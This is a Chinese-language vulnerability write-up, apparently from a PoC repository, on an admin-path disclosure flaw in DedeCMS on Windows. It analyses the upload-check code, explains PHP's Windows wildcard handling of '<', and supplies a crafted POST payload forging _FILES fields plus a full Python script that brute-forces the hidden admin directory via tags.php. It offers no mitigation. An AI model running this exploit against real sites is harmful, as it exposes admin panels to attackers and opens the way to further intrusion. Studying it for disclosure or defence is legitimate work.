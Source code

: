 # DedeCMS 后台地址泄露漏洞

本文仅用于技术讨论与研究，文中的实现方法切勿应用在任何违法场景。如因涉嫌违法造成的一切不良影响，本文作者概不负责。

## 漏洞描述

织梦内容管理系统(Dedecms)是一款PHP开源网站管理系统。dedecms 默认后台地址为 /dede，但很多时候可能会被管理员更改，这时，我们就需要先找到后台地址，本漏洞可以泄露出 dedecms 的后台。

## 漏洞影响

仅针对windows系统（这是因为 < 通配符只在 windows 生效），猜测影响全版本

测试版本 DedeCMS V5.7 SP2

## 漏洞分析

### 代码分析

问题出在 include/common.inc.php 的 148 行

```php
if($_FILES)
{
    require_once(DEDEINC.'/uploadsafe.inc.php');
}
```

上传文件时会请求 include/uploadsafe.inc.php

```php
...
$keyarr = array('name', 'type', 'tmp_name', 'size');
...
foreach($_FILES as $_key=>$_value)
{
    foreach($keyarr as $k)
    {
        if(!isset($_FILES[$_key][$k]))
        {
            exit('Request Error!');
        }
    }
    if( preg_match('#^(cfg_|GLOBALS)#', $_key) )
    {
        exit('Request var not allow for uploadsafe!');
    }
    $$_key = $_FILES[$_key]['tmp_name'];
    ${$_key.'_name'} = $_FILES[$_key]['name'];
    ${$_key.'_type'} = $_FILES[$_key]['type'] = preg_replace('#[^0-9a-z\./]#i', '', $_FILES[$_key]['type']);
    ${$_key.'_size'} = $_FILES[$_key]['size'] = preg_replace('#[^0-9]#','',$_FILES[$_key]['size']);
    if(!empty(${$_key.'_name'}) && (preg_match("#\.(".$cfg_not_allowall.")$#i",${$_key.'_name'}) || !preg_match("#\.#", ${$_key.'_name'})) )
    {
        if(!defined('DEDEADMIN'))
        {
            exit('Not Admin Upload filetype not allow !');
        }
    }
    if(empty(${$_key.'_size'}))
    {
        ${$_key.'_size'} = @filesize($$_key);
    }
    
    $imtypes = array
    (
        "image/pjpeg", "image/jpeg", "image/gif", "image/png", 
        "image/xpng", "image/wbmp", "image/bmp"
    );

    if(in_array(strtolower(trim(${$_key.'_type'})), $imtypes))
    {
        $image_dd = @getimagesize($$_key);
        //问题就出在此处，获取不到就会报错退出
        if (!is_array($image_dd))
        {
            exit('Upload filetype not allow !');
        }
    }
}
```

首先会解析 `$_FILES` 的值，需要满足 `$_FILES[$key]` 一定要存在数组 `$keyarr`  中的这些键

然后就是不允许 `$key` 等于 cfg_ 或者 GLOBALS，这里防止了一部分的变量覆盖，因为之后就会 `$$key`

接下来就是一些取值，比较简单，然后给了一个文件类型的白名单，必须满足是这些类型，最后来到出问题的位置，获取图片的大小，获取不到就报错，这里的话，由于 `$_FILES` 的值可控，也就是 `$$key` 的值可控，既然文件名可控，那么我们就可以利用这里判断是不是存在某文件，再利用通配符，我们就可以获取到后台的地址 

### PHP在Windows上的一些奇妙特性

这里我们需要了解一下 php 在windows上的一些奇妙特性 [WINDOWS文件通配符分析](https://www.cnblogs.com/wangtanzhi/p/12868197.html)

```
大于号(>)相等于通配符问号(?)
小于号(<)相当于通配符星号(*)
双引号(")相当于点字符(.)
```

首先我们需要知道我们使用了文件操作函数，然后PHP的文件操作函数均调用了opendir

`opendir(win32readdir.c)` 使用了 `windows` 的 `FindFirstFile（API)` ，然后在FindFirstFile（API)中进行了如下的定义：

```
//  The following constants provide addition meta characters to fully
//  support the more obscure aspects of DOS wild card processing.

#define DOS_STAR        (L'<')
#define DOS_QM          (L'>')
#define DOS_DOT         (L'"')
```

于是我们的这三个符号在对php文件操作时就有了特殊含义

我们的这里使用了 getimagesize 函数，刚好他是文件操作，我们我们可以使用通配符 <

很多地方说的都是 < 只通配一个字符，但实际尝试中却是可以通配多个字符

### payload 构造

只要包含了 include/common.inc.php 的文件就可以被利用，没有其他特殊条件，这里我们可以选取 tags.php

在前面的文章中说过，每一个 GET 或者 POST 的参数都会进行如下处理

```php
foreach(Array('_GET','_POST','_COOKIE') as $_request)
{
    foreach($$_request as $_k => $_v)
    {
        if($_k == 'nvarname') ${$_k} = $_v;
        else ${$_k} = _RunMagicQuotes($_v);
    }
}
```

因此，我们的 `$_FILES` 也可以通过这种形式来获取，POST 一个 `_FILES[a][tmp_name]` 就可以实现

这里还有一个简单的绕过

```php
if(!empty(${$_key.'_name'}) && (preg_match("#\.(".$cfg_not_allowall.")$#i",${$_key.'_name'}) || !preg_match("#\.#", ${$_key.'_name'})) )
{
    if(!defined('DEDEADMIN'))
    {
        exit('Not Admin Upload filetype not allow !');
    }
}
```

我们这里必然是没有定义 DEDEADMIN 的，因此我们需要绕过，最简单的就是

```php
$_FILES[a][name]=''
```

因此我们可以构造 payload

```
_FILES[a][tmp_name]=./de</images/image.gif&_FILES[a][name]=&_FILES[a][type]=image/gif&_FILES[a][size]=10
```

## Exp

如果通配符只匹配一个字符，但刚好有文件夹的第一个字符与后台地址的第一个字符相同，那么将得不到结果，所以最好是先确定两个字符，因为只针对 windows，windows大小写不敏感，所以只需要小写字母+数字就行，图片文件需要是真实存在的

```python
import requests
import string
import re

s = requests.session()

def getData(payload):
    return {
        '_FILES[a][tmp_name]': payload,
        '_FILES[a][name]': '',
        '_FILES[a][type]': 'image/gif',
        '_FILES[a][size]': '10'
    }

def getAdmin(url):
    dic = string.digits + string.ascii_lowercase
    path = ''
    flag = False
    for i in dic:
        if flag:
            break
        for j in dic:
            payload = './' + i + j + '</images/image.gif'
            data = getData(payload)
            html = s.post(url + '/tags.php', data=data).text
            if 'Upload filetype not allow !' not in html:
                path = i + j
                flag = True
                break
    print("[+] " + url + "/" + path)
    while(1):
        for i in dic:
            payload = './' + path + i + '</images/image.gif'
            data = getData(payload)
            html = s.post(url + '/tags.php', data=data).text
            if 'Upload filetype not allow !' not in html:
                path = path + i
                print("[+] " + url + "/" + path)
                break
        if s.get(url + '/' + path + '/images/image.gif').status_code == 200:
            break

if __name__ == '__main__':
    url = 'http://127.0.0.1/dedecms'
    getAdmin(url)

```

## 参考

- https://wiki.bylibrary.cn/%E6%BC%8F%E6%B4%9E%E5%BA%93/01-CMS%E6%BC%8F%E6%B4%9E/DedeCMS/DedeCms%E5%90%8E%E5%8F%B0%E5%9C%B0%E5%9D%80%E6%B3%84%E9%9C%B2%E6%BC%8F%E6%B4%9E/

`github` 链接：`https://github.com/N0puple/vulPOC`

